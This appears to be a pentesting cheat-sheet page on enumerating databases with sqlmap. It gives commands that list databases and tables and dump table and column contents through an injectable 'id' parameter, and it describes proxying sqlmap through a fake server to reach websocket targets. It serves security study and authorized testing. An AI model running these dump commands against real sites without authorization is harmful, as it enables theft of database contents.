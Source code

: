 ```yaml
---
id: database-enumeration
title: Databases
---
```


import Gist from 'react-gist';

# Database enumeration

## sqlmap

<p align="center">
    <img src={require("./assets/sqlmap.png").default}></img>
</p>

Use `-u` to define the target url and `--batch` to use the default behavior without asking for input.

In the next commands, `id` is a query parameter that is vulnerable to SQL injection.

Enumerate databases.

```sh
sqlmap -u "http://website.com/?id=1" --batch --dbs
```

Enumerate tables of a specific database.

```sh
sqlmap -u "http://website.com/?id=1" --batch --tables -D db_name
```

Enumerate tables content of a specific database.

```sh
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name
```

Enumerate content by specifing table, column, and database.

```sh
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name -T table_name -C col_name
```

### Using sqlmap with websockets

sqlmap may not support all types of requests, including those made over websockets. Also, working with complex targets can sometimes be cumbersome using sqlmap alone.

To simplify the process, it is possible to set up a fake server as an intermediary. In this way, sqlmap would make a request to the fake server using a common format, and the fake server would then make the more complex request to the actual target.

<p align="center">
    <img src={require("./assets/sqlmap_over_websockets.png").default}></img>
</p>

<Gist id="4adec402e51df2bf3e35066172abaebf" />
